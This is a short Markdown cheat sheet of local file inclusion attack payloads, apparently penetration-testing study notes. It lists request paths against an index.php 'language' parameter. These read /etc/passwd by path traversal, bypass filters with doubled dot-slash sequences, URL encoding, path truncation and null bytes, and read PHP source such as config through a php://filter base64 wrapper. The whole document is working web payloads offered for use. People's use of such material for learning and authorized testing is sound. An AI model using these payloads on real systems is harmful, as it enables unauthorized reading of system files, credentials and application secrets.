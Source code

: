 ___
# LFI

| `/index.php?language=/etc/passwd`                        | Basic LFI               |
| -------------------------------------------------------- | ----------------------- |
| `/index.php?language=../../../../etc/passwd`             | LFI with path traversal |
| `/index.php?language=/../../../etc/passwd`               | LFI with name prefix    |
| `/index.php?language=./languages/../../../../etc/passwd` | LFI with approved path  |

# Basic Bypasses

| `/index.php?language=....//....//....//....//etc/passwd`                                          | Bypass basic path traversal filter                        |
| ------------------------------------------------------------------------------------------------- | --------------------------------------------------------- |
| `/index.php?language=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64`          | Bypass filters with URL encoding                          |
| `/index.php?language=non_existing_directory/../../../etc/passwd/./././.[./ REPEATED ~2048 times]` | Bypass appended extension with path truncation (obsolete) |
| `/index.php?language=../../../../etc/passwd%00`                                                   | Bypass appended extension with null byte (obsolete)       |
| `/index.php?language=php://filter/read=convert.base64-encode/resource=config`                     | Read PHP with base64 filter                               |
|                                                                                                   |                                                           |


